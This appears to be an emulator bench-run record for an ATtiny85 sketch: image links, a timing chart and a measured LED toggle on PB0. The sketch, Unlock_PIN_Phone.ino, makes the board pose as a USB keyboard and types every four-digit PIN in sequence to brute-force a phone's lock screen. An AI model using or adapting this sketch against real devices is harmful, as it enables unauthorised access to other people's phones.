
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 127.5 s:

Timing chart, 0 to 130.0 s (numbered marks = the images above):


The sketch:

Unlock_PIN_Phone.ino
```cpp
#include "DigiKeyboard.h"

void setup() {
  pinMode(0, OUTPUT);
  delay(5000);
}

char buf [11];

void loop() {

  DigiKeyboard.sendKeyStroke(0);
  for (int i = 0; i <= 10000; i++) {
    sprintf (buf, "%04i", i) ;
    DigiKeyboard.println(buf);
  }
  digitalWrite(0, HIGH);
  delay(2000);
  digitalWrite(0, LOW);
  delay(2000);
  DigiKeyboard.delay(5000);
}
```

Measured:
- by itself, PB0: LOW → HIGH at 127 s, → LOW 2.0 s later
